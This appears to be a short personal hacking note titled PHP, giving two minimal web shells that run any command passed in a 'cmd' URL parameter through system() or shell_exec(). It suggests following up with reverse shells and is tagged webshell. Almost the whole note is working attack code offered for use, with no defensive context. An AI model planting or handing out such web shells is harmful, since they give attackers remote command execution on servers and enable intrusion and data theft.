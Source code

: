 # PHP

This is used to execute command in the explorer using the parameter ?cmd=COMMAND in the url and after you can use a [[Reverse shells]] 

````php
<?php
	$cmd = system($_GET['cmd']);
	echo "<pre>" . shell_exec($cmd) . "</pre>";
?>
````

Or you can use only this:
````php
<?php
	system($_GET['cmd']);
?>
````

---

# Tags

#webshell #shell 

---
